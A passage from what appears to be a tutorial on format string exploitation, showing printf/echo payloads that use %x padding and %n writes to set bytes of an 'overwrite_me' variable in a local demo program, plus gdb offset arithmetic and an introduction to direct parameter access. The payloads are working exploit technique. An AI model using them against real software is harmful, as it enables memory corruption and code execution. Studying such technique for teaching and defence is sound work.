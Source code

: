 As we can see, this sets 0x35 or d53 in overwrite me, and we want it to be 0xaa.
We can use a width buffer of 119 characters in order to write aa to the LSB as before.
`echo "$(printf '\x8c\xbe\xff\xffJUNK\x8d\xbe\xff\xffJUNK\x8e\xbe\xff\xffJUNK\x8f\xbe\xff\xff')%x%x%x%119x%n" | ./demo`
```
����JUNK����JUNK����JUNK����ffffd22880491ccffffbe90                                                                                                                      0


Memory address of SHELL environment variable @ 0xffffd46e = 47 0x0000002f
Memory address of overwrite_me @  0xffffbe8c = 170 0x000000aa
```

In order to write bb, we can calculate the number of characters our string needs to be in 0xbb,  then add a second write:

```(gdb) p 0xbb - 0xaa
$4 = 17
```

`echo "$(printf '\x8c\xbe\xff\xffJUNK\x8d\xbe\xff\xffJUNK\x8e\xbe\xff\xffJUNK\x8f\xbe\xff\xff')%x%x%x%119x%n%17x%n" | ./demo`
```
����JUNK����JUNK����JUNK����ffffd22880491ccffffbe90                                                                                                                      0         4b4e554a


Memory address of SHELL environment variable @ 0xffffd46e = 47 0x0000002f
Memory address of overwrite_me @  0xffffbe8c = 48042 0x0000bbaa
```

etc.

We could continue this example with the final 2 writes. If we needed a number smaller than the one we've got, we would need to increment by enough to overflow the first 2 bytes of the number.  


### 5) Direct Parameter Access

Direct Parameter Access simplifies format string exploits.

It allows parameters to be accessed directly using the `$` qualifier.

`%n$d` accesses the nth parameter and displays it as a decimal number.

e.g. 
`printf("7th: %7$d, 4th: %4$05d\n", 10, 20, 30, 40, 50, 60, 70, 80);`
`7th: 70, 4th: 00040`


`echo "AAAA%x%x%x%x" | ./demo`
```
AAAAffffd22880491ccffffbe900


Memory address of SHELL environment variable @ 0xffffd46e = 47 0x0000002f
Memory address of overwrite_me @  0xffffbe8c = 0 0x00000000
```
